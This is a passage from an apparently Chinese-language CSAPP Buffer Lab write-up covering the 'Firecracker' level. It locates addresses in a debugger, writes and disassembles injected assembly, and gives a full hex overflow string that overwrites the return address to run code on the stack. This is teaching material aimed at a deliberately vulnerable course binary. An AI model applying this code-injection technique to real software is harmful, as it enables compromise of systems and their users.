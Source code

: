   ![1](https://raw.githubusercontent.com/AiDaiP/images/master/CSAPP-Buffer%20Lab/1.png)

  

* #### Level2: Firecracker

  ```
  Similar to Levels0 and 1, your task is to get BUFBOMB to execute the code for bang rather than returningto test. Before this, however, you must set global variable global_value toyour userid’s cookie. Your exploit code should set global_value, push theaddress of bang on the stack, and then execute a ret instruction to cause ajump to the code for bang.
  ```

  把全局变量global_value的值修改为为cookie的值，调用bang

  bang的地址为`8048c9d`

  global_value是全局变量，不储存在栈中，只能通过赋值修改。

  global_value的地址为`0x804d100`

  在buf中写入赋值代码，getbuf返回到buf的地址执行代码

  在getbuf断，查看buf的地址

  ```
  0x80491fa <getbuf+6>      lea    eax, [ebp - 0x28] <0x55683508>
  ```

  buf的地址为`0x55683508`

  构造赋值代码

  ```assembly
  push   $0x8048c9d
  mov    $0x67f4b7b0,%eax
  mov    %eax,0x804d100
  ret  
  ```

  把bang的地址压入栈，把cookie的值赋给global_value，然后ret返回到bang

  `as 2.s -o 2.o`得到二进制文件再objdump -d 2.o反汇编

  ```assembly
     0:	68 9d 8c 04 08       	pushq  $0x8048c9d
     5:	b8 b0 b7 f4 67       	mov    $0x67f4b7b0,%eax
     a:	89 04 25 00 d1 04 08 	mov    %eax,0x804d100
    11:	c3                   	retq 
  ```

  ```
  68 9d 8c 04 08 b8 b0 b7 f4 67 89 04 25 00 d1 04 08 c3 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 08 35 68 55
  ```

  ![2](https://raw.githubusercontent.com/AiDaiP/images/master/CSAPP-Buffer%20Lab/2.png)

  

* #### Level 3: Dynamite
